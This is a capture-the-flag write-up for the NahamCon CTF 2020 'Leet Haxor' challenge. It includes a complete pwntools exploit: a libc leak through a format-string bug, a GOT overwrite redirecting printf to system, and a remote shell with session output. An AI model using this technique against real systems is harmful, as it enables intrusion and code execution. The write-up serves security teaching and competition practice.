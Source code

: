 # NahamCon CTF 2020

## Leet Haxor

> 200
>
> 4r3 y0u 4s l33t 4s y0u s4y y0u 4r3??? 
>
> Connect here:</br>
> `nc jh2i.com 50022`</br>
>
> [`leet_haxor`](leet_haxor)

Tags: _pwn_ _x86-64_ _format-string_ _remote-shell_


## Summary

Format string exploit challenge with some constraints, infinite free rides, and a guess.


## Analysis

### Checksec

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

No PIE/Partial RELRO; easy ROP, easy GOT.

    
### Decompile with Ghidra

```c
  puts("Mode [0]:l33tify | [1]:unl33tify | [?]:exit");
  __isoc99_scanf(&DAT_00400c54,&local_7e);
  while ((local_7e == '0' || (local_7e == '1'))) {
    getchar();
    puts("Insert text (Max. 100 chrs):");
    fgets(local_78,100,stdin);
    if (local_7e == '0') {
      l33tify(local_78);
    }
    else {
      unl33tify(local_78);
    }
    puts("Mode [0]:l33tify | [1]:unl33tify | [?]:exit");
    __isoc99_scanf(&DAT_00400c54,&local_7e);
  }
```

`main` loops, prompting `Mode [0]:l33tify | [1]:unl33tify | [?]:exit`, then after selecting `0` or `1`, prompts for up to 100 characters, then calls `l33tify` or `unl33tify` based on whether `0` or `1` was selected.  Nothing to see here.

![](l33tify.png)

The `printf` at line 49 is the _first_ venerability.  However the code above will mangle any format-string exploit if there's a matching character.

![](unl33tify.png)

The `printf` at line 40 is the _second_ venerability.  And like `l33tify` above, there is code that will mess with your exploit string.

Fortunately, it's really not that bad.

Using `%p` to leak libc will not be impacted by `l33tify`.  Like `p`, other format-string attack characters such as `h`, `n`, and `c` have also been spared.

> Normally, I'd use the libc leaks to find the version of libc the remote server is using, but instead I opted to guess.  Using strings on the challenge binary, `GCC: (Ubuntu 7.5.0-3ubuntu1~18.04) 7.5.0` was betrayed.  I took a guess and was right.

Setting a breakpoint just before `printf` in `l33tify` and looking at the stack we find a libc leak, way down at parameter 33:

```
0x00007fffffffe470│+0x0000: 0x00007fffffffe620  →  0x0000000000000001 ← $rsp
0x00007fffffffe478│+0x0008: 0x00007fffffffe4d0  →  0x0000000a34343434 ("4444\n"?)
0x00007fffffffe480│+0x0010: 0x0000000000000000
0x00007fffffffe488│+0x0018: 0x00000006f7a62bcd
0x00007fffffffe490│+0x0020: 0x0000000000000000
0x00007fffffffe498│+0x0028: 0x0000000000000000
0x00007fffffffe4a0│+0x0030: 0x00007fffffffe540  →  0x0000000000400a90  →  <__libc_csu_init+0> push r15	 ← $rbp
0x00007fffffffe4a8│+0x0038: 0x0000000000400a2a  →  <main+149> jmp 0x400a38 <main+163>
0x00007fffffffe4b0│+0x0040: 0x00007fffffffe628  →  0x00007fffffffe824  →  "/pwd/datajerk
0x00007fffffffe4b8│+0x0048: 0x00000001f7ffe710
0x00007fffffffe4c0│+0x0050: 0x0000000000000000
0x00007fffffffe4c8│+0x0058: 0x000a21713a300000
0x00007fffffffe4d0│+0x0060: 0x0000000a34343434 ("4444\n"? ← $rdx, $rsi, $rdi
0x00007fffffffe4d8│+0x0068: 0x00000000756e6547 ("Genu"?)
0x00007fffffffe4e0│+0x0070: 0x0000000000000009
0x00007fffffffe4e8│+0x0078: 0x00007ffff7dd7660  →  <dl_main+0> push rbp
0x00007fffffffe4f0│+0x0080: 0x00007fffffffe558  →  0x00007fffffffe628  →  0x00007fffffffe824  
0x00007fffffffe4f8│+0x0088: 0x0000000000f0b5ff
0x00007fffffffe500│+0x0090: 0x0000000000000001
0x00007fffffffe508│+0x0098: 0x0000000000400add  →  <__libc_csu_init+77> add rbx, 0x1
0x00007fffffffe510│+0x00a0: 0x00007ffff7de59a0  →  <_dl_fini+0> push rbp
0x00007fffffffe518│+0x00a8: 0x0000000000000000
0x00007fffffffe520│+0x00b0: 0x0000000000400a90  →  <__libc_csu_init+0> push r15
0x00007fffffffe528│+0x00b8: 0x0000000000400640  →  <_start+0> xor ebp, ebp
0x00007fffffffe530│+0x00c0: 0x00007fffffffe620  →  0x0000000000000001
0x00007fffffffe538│+0x00c8: 0x7e99182cebfbc400
0x00007fffffffe540│+0x00d0: 0x0000000000400a90  →  <__libc_csu_init+0> push r15
0x00007fffffffe548│+0x00d8: 0x00007ffff7a05b97  →  <__libc_start_main+231> mov edi, eax
```

> The 6th parameter starts at `$rsp`, then count down (parameters 1-5 are in registers).  Or just test until you get a match.  You do have infinite retries.

We also need to know what parameter our format string is located at, again starting from the top and counting down you'll notice `4444` at parameter 18.  That `4444` was actually entered as `AAAA`, but it got _l33tified_ (lamified).

And that is all the information we need.


## Exploit

### Attack Plan

1. First Pass: Leak libc address
2. Second Pass: GOT `printf` -> `system`
3. Final Pass: Get a shell, get the flag


### Setup

```python
#!/usr/bin/python3

from pwn import *

#p = process('./leet_haxor')
p = remote('jh2i.com', 50022)

binary = ELF('leet_haxor')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
context.update(arch='amd64')
offset = 18
```

_Guessing_ Ubuntu 18.04, I just used an 18.04 container with the native libc.

The `offset` of `18` was determined above in the _Analysis_ section.  This will be required by the pwntools `fmtstr_payload` function.



### First Pass: Leak libc address

```python
p.recvuntil('Mode [0]:l33tify | [1]:unl33tify | [?]:exit')
p.sendline('0')
p.recvuntil('Insert text (Max. 100 chrs):')
p.sendline('%33$p')
p.recvline()

__libc_start_main = int(p.recvline().strip(),16) - 231
print('__libc_start_main',hex(__libc_start_main))
baselibc = __libc_start_main - libc.symbols['__libc_start_main']
print('baselibc',hex(baselibc))
libc.address = baselibc
```

The 33rd parameter to `printf` will leak a libc address (`__libc_start_main+231`) from the stack:

```
0x00007fffffffe548│+0x00d8: 0x00007ffff7a05b97  →  <__libc_start_main+231> mov edi, eax
```

After that, it's easy to compute the libc base address.


### Second Pass: GOT `printf` -> `system`

```python
p.recvuntil('Mode [0]:l33tify | [1]:unl33tify | [?]:exit')
p.sendline('0')
p.recvuntil('Insert text (Max. 100 chrs):')

payload = fmtstr_payload(offset,{binary.got['printf']:libc.symbols['system']})

badchars = b'AaBbEeGgIiOoSsTtZz\r\n'
if any(x in payload for x in badchars):
    print("badchar in payload! exiting!\n")
    sys.exit(1)

p.sendline(payload)
```

pwntools provides very nice format-string functions; calling `fmtstr_payload` with our `offset`, and the addresses to GOT `printf` and libc `system` is all we need, however there's the possibility, due to ASLR, that one of the address could have a "badchar"; to avoid failure, check first.

> I probably should have labeled `badchars` as `l33tchars` for readability.  The `\r\n` are for `fgets`.


### Final Pass: Get a shell, get the flag

```python
p.recvuntil('Mode [0]:l33tify | [1]:unl33tify | [?]:exit')
p.sendline('1')
p.recvuntil('Insert text (Max. 100 chrs):')
p.sendline("/bin/sh")
```

Now that `printf` is `system`, just send `/bin/sh`, however this time use `unl33tify` to avoid having the string mangled.


Output:

```bash
# ./exploit.py
[+] Opening connection to jh2i.com on port 50022: Done
[*] '/pwd/datajerk/nahamconctf2020/leet_haxor/leet_haxor'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] '/lib/x86_64-linux-gnu/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
__libc_start_main 0x7f0c3bdddab0
baselibc 0x7f0c3bdbc000
[*] Switching to interactive mode

$ ls
bin  bin.c  flag.txt
$ cat flag.txt
flag{w0w_y0u_4r3_4_l33t_h@x0r}
```
